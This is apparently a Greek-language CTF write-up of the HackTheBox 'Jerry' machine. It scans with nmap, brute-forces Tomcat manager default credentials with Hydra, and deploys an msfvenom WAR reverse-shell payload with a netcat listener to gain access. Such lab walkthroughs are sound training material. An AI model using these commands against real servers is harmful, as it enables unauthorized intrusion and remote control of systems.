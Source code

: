 ```yaml
---
title: Jerry
date: 2020-10-14 10:00:00 +0300
categories: [HackTheBox, CTF]
tags: [htb,ctf,begginer track]     # TAG names should always be lowercase
---
```

# Σε γενικές γραμμές.

![Desktop View](/assets/img/sample/HTC/jerry_htb_screen.png)

### Host discovery
Για το host descovery θα χρησιμοποιησουμε το nmap!

```shell
nmap -sV -sC 10.10.10.95
```

Αυτό το μηχάνημα έχει ανοιχτή την 8080 port και τρέχει 'Apache Tomcat/Coyote JSP engine' το οποίο είναι ένα HTTP web server environment οπου μπορείς να τρέξεις java εφαρμογές.

![Desktop View](/assets/img/sample/HTC/jerry_nmap.png)

![Desktop View](/assets/img/sample/HTC/jerry_server_status.png)

![Desktop View](/assets/img/sample/HTC/jerry_default_password.png)


Μπαίνοντας στο http://http://10.10.10.95:8080/manager/ και κανουμε login με τα παραπανω default credetials.

## Bruteforcing tomcat default creds with Hydra and seclists

Ένας δεύτερος τρόπος είναι να κάνουμε bruteforce attack το login page του tomcat.
Οπότε ανοίγουμε το burpsuite αντιγράφουμε το request και έπειτα το χρησιμοποιούμε μέσω του hydra για να βρούμε ονομα και κωδικο του tomcat.
αρχικά κάνουμε εγκατάσταση την wordlist για τους default κωδικους του tomcat

```terminal
sudo apt install seclists
hydra -C /user/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
```

![Desktop View](/assets/img/sample/HTC/hydra-bruteforce.png)

Κάνοντας login στο http://10.10.10.95:8080/manager βάζουμε τους τα credetials που βρηκαμε παραπανω.

![Desktop View](/assets/img/sample/HTC/jerry_login.png)

και βλέπουμε οτι επιτυχως εχουμε εισελθει στο tomcat dashboard. 
Εκεί βλέπουμε οτι μπορούμε να ανεβάσουμε αρχεία. Ανεβάζοντας ενα payload ίσως είναι αρκετό να μας δώσει προσβαση στον server.

![Desktop View](/assets/img/sample/HTC/jerry_upload_war.png)

## generating payloads

Θα χρησιμοποησουμε το msfvenom ωστε να δημιουργησουμε ενα payload και να το ανεβασουμε και επειτα κανουμε Setup τον Netcat listener.

```terminal
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=1234 -f war > exploit.war
```
Κάνουμε unzip to αρχειο που δημιουργήσαμε για να δουμε το ονομα του jsp file που εχουμε ωστε να το βάλουμε στο url οταν χρειστει να τρέξουμε το payload.
Επειτα συνδεομαστε στο netcat listener απο το target host.

```terminal
unzip exploit.war
```
![Desktop View](/assets/img/sample/HTC/jerry_jsp.png)

```terminal
nc -nlvp 1234
```

Επειτα πηγαίνουμε στο http://10.10.10.95:8080/exploit/mroilmcirxmx.jsp

και βλέπουμε οτι επιτυχώς έχουμε πρόσβαση στο host

![Desktop View](/assets/img/sample/HTC/jerry_flags.png)
